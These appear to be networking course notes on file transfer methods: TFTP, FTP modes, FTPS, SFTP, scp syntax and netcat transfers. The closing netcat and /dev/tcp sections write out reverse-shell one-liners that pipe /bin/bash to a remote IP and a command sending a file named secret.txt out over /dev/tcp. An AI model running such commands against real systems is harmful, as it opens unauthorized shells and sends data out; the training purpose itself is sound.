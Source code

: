 # File Transfer Methods

- TFTP
- FTP
  - Active
  - Passive
- FTPS
- SFTP
- SCP
- NETCAT

## TFTP
- RC 1350 Rev2
- Uses UDP 69
- Insecure
- Simple with limited functionality

## [FTP](https://ss64.com/bash/ftp.html)
- RC 959
- TCP 20 (control), TCP 21 (data)
- requires login, but login information is plaintext
- creates a shell on the FTP host which allows you to traverse directories

Note: if you see a message `500 Illegal PORT command` try switching from active to passive with the command `PASV`

### Active (Default)
Unsafe because FTP server initiates communication
![alt](https://git.cybbh.space/net/public/raw/master/modules/networking/slides-v4/images/ftp_active.png)


### Passive
Designed to fix the issues with Active FTP
![alt](https://git.cybbh.space/net/public/raw/master/modules/networking/slides-v4/images/ftp_passive.png)

## FTPS
- Adds encryption (SSL/TLS) to FTP
- For connections on TCP 20/21 encryption is optional
- For connections on TCP 989/990 encryption is mandatory

## SFTP
- TCP 22
- Adds FTP like features to SSH

## [SCP](https://ss64.com/bash/scp.html)
- TCP 22
- Allows simple file transfer (think TFTP) via SSH

### Syntax

```
scp [-p <alternate port>] <file to grab> <where to send>
```

Options:
- `-v` verbose mode
- `-P` alternate port
- `-r` recursively copy directory
- `-3` 3-way copy (instead of copying directly between 2 hosts, the file is downloaded to local host then sent from local host)
  - Remote host 1 -> Localhost
  - Localhost -> Remote host 2

### Examples
```
scp /home/scpuser/myfile.txt student@10.10.10.10:/home/client/
```
 sends file from local machine to remote client

```
scp student@10.10.10.10:/home/client/myfile.txt .
```
grabs file from remote client to present working directory

```
scp student@10.10.10.10:/home/client/myfile.txt admin@10.10.11.0:/user/admin/stuff
```
from `10.10.10.10` `myfile.txt` is sent directly to `10.10.11.0`

`10.10.10.10` -> `10.10.11.0`

```
scp -3 student@10.10.10.10:/home/client/myfile.txt admin@10.10.11.0:/user/admin/stuff
```
grabs file from `10.10.10.10` downloads it to local machine, then from the local machine it sends the file to `10.10.11.0`

`10.10.10.10` -> localhost
localhost -> `10.10.11.0`

```
proxychains scp student@localhost:secretstuff.txt .
proxychains scp secretstuff.txt student@localhost:
```
Use proxychains to scp over a port forward


## NETCAT
```
nc -lvp 9001 < file.txt
```
Sends a file

```
nc 172.16.82.106 9001 > newfile.txt
```
Receives a file

```
mknod mypipe p
nc -lvp 1111 < mypipe | nc -lvp 3333 > mypipe
```
Setup a relay

`mknod mypipe p` creates a "named pipe" which stores the data in volatile memory

### Open a Reverse Shell
```
nc -lvp 9999
```
Open listening port on host machine

```
nc -c /bin/bash 10.10.0.40 9999
nc -e /bin/bash 10.10.0.40 9999
/bin/bash -i > /dev/tcp/10.10.0.40/9999 0<&1 2>&1
```
Opening shell on remote machine

### [Python remote_shell script](Socket_Scripts/Reverse_Shell.py)

## /Dev/TCP

```
/Dev/TCP/<IP Address>/<Port>
```

```
cat secret.txt > /dev/tcp/10.10.0.40/1111
```
